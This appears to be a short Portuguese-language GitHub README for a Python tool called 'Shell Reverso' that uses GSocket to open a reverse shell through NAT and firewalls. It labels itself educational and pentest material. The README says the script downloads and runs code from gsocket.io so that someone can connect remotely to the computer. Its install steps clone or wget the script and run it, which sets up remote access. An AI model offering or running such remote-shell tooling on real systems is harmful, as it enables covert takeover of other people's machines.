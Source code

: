 # 🐚 Shell Reverso com GSocket

![Captura de Tela (7)](https://github.com/user-attachments/assets/522b4a3a-dcf2-4ea9-8e30-b2e86ebcda26)


Este repositório contém um script em Python que utiliza a ferramenta [GSocket](https://gsocket.io) para criar uma **conexão reversa segura** e estável, mesmo atrás de NATs ou firewalls. Ideal para fins educacionais, testes de penetração ou demonstrações de segurança ofensiva, O script baixa um código da internet (do site gsocket.io) e executa ele no seu computador via terminal, salvando o que ele imprimir no arquivo output.txt. Isso pode permitir que alguém se conecte remotamente ao seu computador.

---

## ⚙️ Requisitos

- Python 3
- cURL
- Permissão para execução de comandos no terminal
- Conexão com a internet

---

## 📦 Instalação

Clone o repositório:

```bash
git clone https://github.com/Andreyftg/Shell-Reverso.git
cd Shell-Reverso
python3 gsocket.py
cat output.txt
```

ou
```bash
wget https://raw.githubusercontent.com/Andreyftg/Shell-Reverso/refs/heads/main/gsocket.py
python3 gsocket.py
cat output.txt
```


